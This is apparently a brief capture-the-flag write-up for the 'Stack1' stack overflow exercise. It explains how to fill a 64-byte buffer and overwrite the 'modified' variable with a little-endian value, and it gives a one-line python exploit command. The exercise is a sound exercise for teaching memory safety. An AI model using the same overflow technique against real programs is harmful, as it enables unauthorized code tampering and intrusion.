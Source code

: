 #### Stack1

Need to write the value 0x61626364 in the "modified" variable.

Write it in little endian, so the hex number is inverse (0x64 0x63 0x62 0x61).

You need to fill the buffer first with 64 characters to access the "modified" variable in the stack.

```bash
./stack1 `python -c 'print("C"*64 + "\x64\x63\x62\x61")'`
```
